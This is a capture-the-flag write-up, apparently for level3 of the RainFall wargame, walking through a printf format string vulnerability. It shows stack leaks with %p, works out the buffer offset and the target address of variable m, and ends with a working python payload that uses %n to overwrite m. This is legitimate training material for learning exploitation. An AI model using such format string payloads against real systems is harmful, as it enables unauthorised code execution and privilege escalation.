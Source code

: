 We start by opening the file in [dogbolt](https://dogbolt.org/). Here we can see that it use a printf without specifying a format

So we can try to play with it by, doing something like:

```
level3@RainFall:~$ ./level3
%p %p %p
0x200 0xb7fd1ac0 0xb7ff37d0
```

We can that using %p result of memory display.

Since with printf we can write on the stack using %n this is a vulnerability.

Now we will see how to write on our variable `m` to enter the if statement.
We know that %n put the length off a string in a given address :

```
printf("abc%n\n",&nb); // nb == 3
```

Ok we know we can write with %n but how can I find a variable with the 64 char needed to match the condition ?
We will use printf to check the stack, I start by putting some "AAAA" at the start of our printf this help us determine where our buffer start.
Then I will use %p to check pointers :

```
./level3
AAAA %p %p %p %p %p %p %p %p %p %p
AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070
```

We can see that the start of our buffer is 4 pointer or %4$p

Ok I can write a specific value on an address will the address,
so we will get the address of `m` who can be found with `gdb` or `objdump -t`
address : 0804988c
in little endian : \x8c\x98\x04\x08

Ok we have the address and a value time to put the value in the `m`
The injection will look like:
[address of `m` (to set the printf pointer on it)][64 - len(address) = 60][%4$n(start of our buffer)]

```
python -c 'print "\x8c\x98\x04\x08" + "A" * 60 + "%4$n"' > /tmp/exploit && cat /tmp/exploit - | ./level3
```
